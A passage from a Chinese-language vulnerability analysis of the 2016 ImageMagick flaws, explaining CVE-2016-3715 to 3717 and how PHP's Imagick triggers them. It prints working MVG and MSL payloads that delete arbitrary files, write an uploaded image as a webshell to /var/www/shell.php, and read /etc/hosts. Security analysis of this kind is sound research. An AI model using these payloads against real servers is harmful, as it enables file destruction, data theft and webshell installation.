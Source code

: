 CVE-2016-3715是利用ImageMagick支持的ephemeral协议，来删除任意文件：

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'ephemeral:/tmp/delete.txt'
popgraphic-context

```

CVE-2016-3716是利用ImageMagick支持的msl协议，来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。

特别说明的是，msl协议是读取一个msl格式的xml文件，并根据其内容执行一些操作：

```
file_move.mvg
-=-=-=-=-=-=-=-=-
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'msl:/tmp/msl.txt'
popgraphic-context

/tmp/msl.txt
-=-=-=-=-=-=-=-=-
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>

```

CVE-2016-3717可以造成本地文件读取漏洞：

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/hosts'
pop graphic-context

```

0x02 深入分析
=====

除了报告中给出的POC以外，各个安全研究人员也集思广益，发现这个洞的更多利用/影响方式。

首先，PHP扩展『ImageMagick』也存在这个问题，而且只需要调用了Imagick类的构造方法，即可触发这个漏洞：

```
<?php
new Imagick('vul.gif');

```

因为没有返回值，我利用cloudeye捕捉到apache日志，从日志中读取命令执行的结果：

[![](http://static.wooyun.org//drops/20160505/2016050510205522153.png)](http://drops.wooyun.org/wp-content/uploads/2016/05/QQ20160504-5@2x.png)
